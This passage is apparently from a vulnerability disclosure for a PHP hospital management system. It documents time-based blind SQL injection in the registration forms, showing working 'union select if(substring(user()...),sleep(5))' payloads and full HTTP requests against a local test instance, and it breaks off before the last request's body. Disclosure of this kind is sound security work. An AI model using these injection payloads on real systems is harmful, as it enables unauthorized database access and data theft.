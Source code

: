 ```
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

fullname=aaaa' and 1=2 union select if(substring((select user() limit 0,1),1,1)='r',sleep(5),1)#&email=1111%40qqqq.com&submit=&submit=
```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:

![5.png](./img/5.png)

If you query the following statement:
```
fullname=aaaa' and 1=2 union select if(substring((select user() limit 0,1),1,1)='b',sleep(5),1)#&email=1111%40qqqq.com&submit=&submit=
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:

![6.png](./img/6.png)


**[3]**

In\hms\registration.php:

![7.png](./img/7.png)

Line 11 gets the values of the POST variables full_name, address, city, gender, and email directly into the database query causing SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/registration.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 185
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```